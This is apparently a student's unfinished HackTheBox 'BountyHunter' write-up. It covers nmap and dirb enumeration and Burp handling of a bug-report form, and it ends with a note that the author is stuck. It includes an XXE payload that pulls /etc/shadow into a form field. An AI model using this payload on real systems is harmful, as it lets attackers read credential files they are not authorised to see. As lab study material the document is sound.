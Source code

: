 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1:
+ dirb ${IP} || dirb ${IP}/ -X .php
    + /assets/
    + /log_submit.php
    + /resources/

### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
    + Data needs to be *URL then Base64 decoded*
    + Find template https://github.com/payloadbox
    + adjust titles to mimic db.php titles
    + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml version="1.0" encoding="ISO-8859-1"?>
    <bugreport>
    <title>test</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <bugreport>
    <title>&ent;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

Obtain Username: ${UN}

#Stuck on XML XXE
TODO: Study more
